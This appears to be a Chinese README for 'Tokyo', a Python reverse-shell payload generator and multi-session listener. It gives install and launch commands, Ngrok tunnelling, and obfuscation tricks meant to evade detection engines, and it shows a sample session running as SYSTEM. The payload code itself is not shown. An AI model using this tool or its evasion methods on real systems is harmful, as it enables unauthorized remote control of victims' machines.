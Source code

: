 ## 🚀 超能力清单

- 🎭 **动态变脸术**：每次生成的载荷都有新面孔，让检测引擎怀疑人生！
- 🌐 **Ngrok隧道快递**：内网穿透？我们包邮！（需自备Ngrok账号）
- 🕶️ **VIP会话包厢**：同时管理5个会话，每个攻击目标都有专属座位
- 🧩 **智能混淆算法**：把`New-Object`变成`N''e''w-O''bj''ec''t`之类的魔法文字游戏
- 🎨 **彩虹终端界面**：用Colorama绘制的彩色控制台，比黑白屏有趣100倍

## 🛠️ 安装指南

把这份「魔法配方」克隆到你的法术书（本地仓库）吧！

```bash
git clone https://github.com/9Insomnie/Tokyo.git
cd Tokyo/
pip install -r requirements.txt  # 安装魔法药水材料
```

## 🎮 使用说明书

### 基础模式
```bash
# 开启你的降雨仪式（记得替换IP哦~）
python tokyo.py -l 192.168.1.666 -p 2333

# 想直接看「雨水源码」？加上-r参数！
python tokyo.py -r raw
```

### 高级模式
```bash
# 启用Ngrok魔法隧道（需要先配置好Ngrok）
python tokyo.py -n ngrok
```

### 控制台魔法秀
```
[成功] 接受来自 192.168.1.102:54188 的连接

活动会话 --> [会话ID::1, 192.168.1.102::54188 ]
[提示]: 按CTRL+C切换会话
[提示]: 输入0将终止所有会话
-----------------------------------------------
[?] 选择会话 (1-3) 或输入0退出: 1

192.168.1.102:54188 >>> [Tokio会话] 1: whoami
nt authority\system 🌟
```

## 🧙 魔法原理

### 混淆炼金术流程
1. **材料准备**：生成10个随机UUID作为混淆原料
2. **文字变形**：把敏感字符串变成`Syst??r??t`这样的谜语
3. **变量整容**：用`$3dbfe2ebffe072727`这样的神秘符号替换常规变量名
4. **最终附魔**：通过Base64编码把payload变成「天书」

### 会话管理秘籍
- 🎪 每个会话都是马戏团里的独立表演者
- 🤹 用数字键快速切换不同「杂技演员」
- 💫 `quit`命令是优雅的谢幕动作

## ⚠️ 安全须知

❗ 本工具仅限授权测试使用，擅自对他人系统「人工降雨」可能会被雷劈哦 ⚡  
❗ 生成payload前请确认自己在法律允许的「降雨区域」  
❗ 建议在隔离的「魔法练习场」（虚拟机环境）使用

## 🌈 贡献指南

欢迎提交你的「魔法改良配方」！请遵循以下步骤：
1. Fork 本魔法书
2. 创建新的魔法分支 (`git checkout -b feature/awesome-spell`)
3. 提交你的咒语改进 (`git commit -am 'Add fireball spell'`)
4. 推送魔法到云端 (`git push origin feature/awesome-spell`)
5. 发起Pull Request

## 📜 开源许可

本项目采用 MIT 许可证 - 详情请见 [LICENSE](LICENSE) 文件。  
Made with ❤️ by [9Insomnie](https://github.com/9Insomnie) | 灵感来自无数个不眠雨夜 🌧️
